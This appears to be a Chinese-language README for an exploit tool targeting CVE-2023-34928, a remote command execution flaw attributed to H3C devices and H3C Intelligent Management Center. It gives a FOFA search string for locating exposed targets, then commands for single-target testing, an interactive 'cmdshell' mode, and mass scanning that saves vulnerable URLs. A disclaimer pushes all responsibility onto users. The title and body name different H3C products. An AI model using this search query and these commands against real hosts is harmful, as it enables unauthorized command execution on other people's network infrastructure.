 # H3C Magic B1STV100R012 RCE

H3C Intelligent Management Center 存在命令执行漏洞。攻击者可利用漏洞通过构造特殊的请求造成远程命令执行。

## FOFA

"/imc/login.jsf"

## 工具利用

python3 CVE-2023-34928.py -u http://127.0.0.1:1111 单个url测试

python3 CVE-2023-34928.py -c http://127.0.0.1:1111 cmdshell模式
![exp](./exp.jpg)

python3 CVE-2023-34928.py -f url.txt 批量检测 扫描会自动保存存在漏洞的url到vuln.txt
![poc](./poc.jpg)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
